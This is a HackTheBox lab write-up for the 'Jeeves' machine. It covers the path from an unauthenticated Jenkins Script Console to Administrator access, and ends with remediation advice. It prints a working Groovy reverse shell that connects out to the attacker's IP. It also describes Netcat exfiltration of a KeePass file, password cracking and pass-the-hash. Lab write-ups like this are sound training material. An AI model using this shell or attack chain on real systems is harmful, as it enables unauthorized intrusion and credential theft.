# Jeeves (HackTheBox) Writeup

## Enumeration
#### Nmap Scan Results
Nmap results suggest that the target is running Windows. SMB is running on port 445, while two web applications are accessible on ports 80 and 50000.


The web application on port 80 features a search bar.


Searching for a random query results in the following MSSQL error.


A `gobuster` directory brute-force reveals the `askjeeves` endpoint on the web application running on port 50000.


Direct access reveals the Jenkins dashboard. Although a `log in` button is available at the top right of the page, authentication does not appear to be required, as the dashboard functions normally.

## Initial Access
Jenkins provides a Script Console endpoint that allows users to execute Groovy scripts. This functionality can be used to automate Jenkins configuration, but it also allows system commands to be executed through Groovy code.

The Script Console is available at the `/script` endpoint and can be accessed through the web application without authentication.


The following Groovy reverse shell script is prepared:
```
┌──(shushan㉿shushan)-[~/HTBLabs/Jeeves]
└─$ cat shell.groovy 
String host="10.10.15.99";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

The script is copied to and executed through the Script Console.


Initial access to the target system is obtained.


The shell is running as the `kohsuke` user.


The user flag is found on `kohsuke`'s Desktop.
## Privilege Escalation
Enumeration of privileges using `whoami /priv` reveals that `kohsuke` has `SeImpersonatePrivilege` enabled.


Attempts to exploit this privilege using Potato binaries or `PrintSpoofer` fail. Further enumeration of `kohsuke`'s home directory reveals a KeePass database file named `CEH.kdbx` in the user's Documents directory.


A Netcat binary is transferred to the target and used to transfer the KeePass database file to the attacking machine.


A Netcat listener on the attacking machine receives the connection and redirects the output to a file.


`keepass2john` is used to extract the KeePass database's password hash to a file. John the Ripper is then used to crack the hash and recover the database's plaintext password.


KeePassXC is used to open the database with the recovered password, revealing multiple sets of credentials. The entry titled `Backup stuff` contains what appears to be an NTLM hash.


The hash is tested using a Pass-the-Hash attack with NetExec, confirming that it belongs to the local `Administrator` account.




The root flag is found on the `Administrator`'s Desktop. The flag is stored in an NTFS Alternate Data Stream (ADS) named `root.txt`, attached to the file `hm.txt`, rather than in a separate file. It can be retrieved using the `more < hm.txt:root.txt` command.

## Findings & Remediation

### Unauthenticated Jenkins Script Console Remote Code Execution
#### Description
The Jenkins Script Console is accessible without authentication and allows users to execute Groovy scripts, including scripts that execute system commands.
#### Impact
An unauthenticated attacker can execute system commands through the Script Console and obtain a reverse shell as the `kohsuke` user, gaining initial access to the system.
#### Remediation
Require authentication and appropriate authorization for access to the Jenkins Script Console. Restrict access to Jenkins administrative functionality to authorized users and trusted networks, and upgrade Jenkins to a supported version with current security updates.

### Weak KeePass Database Password
#### Description
The KeePass database `CEH.kdbx` is protected by a password that can be recovered through offline password cracking.
#### Impact
An attacker who obtains the database can crack its password and access the stored credentials. In this case, the database contained an NTLM hash belonging to the local `Administrator` account, which could be used in a Pass-the-Hash attack to obtain access as `NT AUTHORITY\SYSTEM`.
#### Remediation
Protect KeePass databases with strong, unique master passwords and use a password manager to generate and store them securely. Restrict access to database files and rotate any credentials or hashes that may have been exposed.

### Excessive Privileges - SeImpersonatePrivilege
#### Description
The `kohsuke` user has the `SeImpersonatePrivilege` privilege enabled, allowing the account to impersonate a client after authentication under applicable conditions.
#### Impact
Depending on the target's configuration and available exploitation techniques, an attacker with access to the `kohsuke` account may be able to abuse this privilege to escalate privileges to `NT AUTHORITY\SYSTEM`.
#### Remediation
Review the privileges assigned to the `kohsuke` account and remove `SeImpersonatePrivilege` if it is not required. Apply the principle of least privilege and ensure that user and service accounts have only the permissions necessary for their intended functions.
